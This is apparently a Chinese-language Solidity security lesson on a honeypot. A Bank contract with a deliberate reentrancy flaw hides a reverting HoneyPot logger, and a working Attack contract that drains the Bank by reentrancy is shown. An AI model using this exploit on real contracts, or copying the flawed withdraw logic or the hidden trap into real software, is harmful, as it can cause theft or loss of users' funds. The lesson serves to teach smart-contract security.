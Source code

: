 # 75.Honeypot
Honeypot是一种用来捕捉黑客的陷阱。

## 漏洞
通过结合两个漏洞，重新进入攻击和隐藏恶意代码，我们可以构建一个合约来捕获恶意用户。


Bank 是一个调用 Logger 记录事件的合约。
Bank.withdraw() 存在重新进入攻击漏洞。
所以黑客试图从 Bank 中取走以太。
但实际上，重新进入攻击漏洞是用来引诱黑客的。
通过在 Logger 的位置上放置 HoneyPot 并部署 Bank，这个合约就成为了黑客的陷阱。让我们看看发生了什么。

1. Alice 部署 HoneyPot
2. Alice 部署 Bank，并将 HoneyPot 的地址传递给它
3. Alice 往 Bank 中存入 1 个以太。
4. Eve 发现 Bank.withdraw 中的重新进入攻击漏洞，并决定攻击它。
5. Eve 部署 Attack，并将 Bank 的地址传递给它
6. Eve 调用 Attack.attack()，但交易失败了。

发生了什么？
Eve 调用 Attack.attack()，并开始从 Bank 中提取以太。
当最后一个 Bank.withdraw() 即将完成时，它调用 logger.log()。
logger.log() 调用 HoneyPot.log() 并抛出异常。交易失败了。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Bank {
    mapping(address => uint) public balances;
    Logger logger;

    constructor(Logger _logger) {
        logger = Logger(_logger);
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        logger.log(msg.sender, msg.value, "Deposit");
    }

    function withdraw(uint _amount) public {
        require(_amount <= balances[msg.sender], "Insufficient funds");

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;

        logger.log(msg.sender, _amount, "Withdraw");
    }
}

contract Logger {
    event Log(address caller, uint amount, string action);

    function log(address _caller, uint _amount, string memory _action) public {
        emit Log(_caller, _amount, _action);
    }
}
```
黑客试图通过重入攻击来耗尽存储在银行中的以太。
```solidity
contract Attack {
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    function attack() public payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
让我们假设这段代码在一个单独的文件中，这样其他人就无法读取它。
```solidity
contract HoneyPot {
    function log(address _caller, uint _amount, string memory _action) public {
        if (equal(_action, "Withdraw")) {
            revert("It's a trap");
        }
    }

    // 使用keccak256比较字符串的函数
    function equal(string memory _a, string memory _b) public pure returns (bool) {
        return keccak256(abi.encode(_a)) == keccak256(abi.encode(_b));
    }
}
```

## remix验证
1. 部署 HoneyPot合约
![75-1.jpg](./img/75-1.jpg)
2. 部署 Bank合约传入HoneyPot合约地址。并调用deposit函数存入1 eth
![75-2.jpg](./img/75-2.jpg)
3. 部署Attack合约传入Bank合约地址。调用attack()函数攻击
![75-3.jpg](./img/75-3.jpg)